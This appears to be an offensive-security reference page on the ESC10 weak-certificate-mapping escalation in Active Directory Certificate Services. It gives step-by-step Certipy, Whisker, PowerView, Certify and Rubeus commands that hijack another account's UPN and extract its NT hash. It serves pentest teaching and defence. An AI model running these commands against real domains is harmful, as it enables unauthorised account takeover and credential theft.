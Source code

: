 # (ESC10) Weak Certificate Mapping 

To understand this privilege escalation, it is recommended to know how certificate mapping is performed.

This ESC refers to a weak configuration of the registry keys:
#### Case 1
 * `StrongCertificateBindingEnforcement` set to `0`, meaning no strong mapping is performed
 * A template that specifiy client authentication is enabled (any template, like the built-in `User` template)
 * `GenericWrite` right against any account A to compromise any account B

> [!WARNING]
> There is no solution as a low privileged user to read the `StrongCertificateBindingEnforcement` value. It is worth to try the attack hopping the key is misconfigured.

From UNIX-like systems, [Certipy](https://github.com/ly4k/Certipy) can be used to enumerate for, and conduct, the ESC10 scenario.

In this scenario, user1 has `GenericWrite` against user2 and want to compromise user3.

First, the user2's hash is needed. It can be retrieved via a Shadow Credentials attack, for example.
```bash
certipy shadow auto -username "user1@$DOMAIN" -p "$PASSWORD" -account user2
```

Then, the `userPrincipalName` of user2 is changed to user3.
```bash
certipy account update -username "user1@$DOMAIN" -p "$PASSWORD" -user user2 -upn user3
```

A certificate permitting client authentication can be requested as user2.
```bash
certipy req -username "user2@$DOMAIN" -hash "$NT_HASH" -ca 'ca_name' -template 'User'
```

The user2's UPN is changed back to something else.
```bash
certipy account update -username "user1@$DOMAIN" -p "$PASSWORD" -user user2 -upn "user2@$DOMAIN"
```

Now, authenticating with the obtained certificate will provide the user3's NT hash with UnPac the hash. The domain must be specified since it is not present in the certificate.
```bash
certipy auth -pfx 'user3.pfx' -domain "$DOMAIN"
```

> [!TIP]
> By default, Certipy uses LDAPS, which is not always supported by the domain controllers. The `-scheme` flag can be used to set whether to use LDAP or LDAPS

From Windows systems, the [Certify](https://github.com/GhostPack/Certify) tool can be used.
```powershell
# Find vulnerable/abusable certificate templates using default low-privileged group
Certify.exe find

# Find vulnerable/abusable certificate templates using all groups the current user context is a part of:
Certify.exe find /currentuser
```

Here, user1 has `GenericWrite` against user2 and want to compromise user3.

First, the user2's credentials are needed. It can be retrieved via a Shadow Credentials attack, for example. Here just the `msDs-KeyCredentialLink` modification part with [Whisker](https://github.com/eladshamir/Whisker):
```powershell
Whisker.exe add /target:"user2" /domain:"domain.local" /dc:"DOMAIN_CONTROLLER" /path:"cert.pfx" /password:"pfx-password"
```

Then, the `userPrincipalName` of user2 is changed to user3 with [PowerView](https://github.com/PowerShellMafia/PowerSploit/blob/master/Recon/PowerView.ps1).
```powershell
Set-DomainObject user2 -Set @{'userPrincipalName'='user3'} -Verbose
```

A certificate permitting client authentication can be requested in a user2 session.
```powershell
Certify.exe request /ca:'domain\ca' /template:"User"
```

The user2's UPN is changed back to something else.
```powershell
Set-DomainObject user2 -Set @{'userPrincipalName'='user2@dmain.local'} -Verbose
```

Now, authenticating with the obtained certificate will provide the user3's NT hash during UnPac the hash. This action can be realised with [Rubeus](https://github.com/GhostPack/Rubeus). The domain must be specified since it is not present in the certificate.
```powershell
Rubeus.exe asktgt /getcredentials /certificate:"BASE64_CERTIFICATE" /password:"CERTIFICATE_PASSWORD" /domain:"domain.local" /dc:"DOMAIN_CONTROLLER" /show
```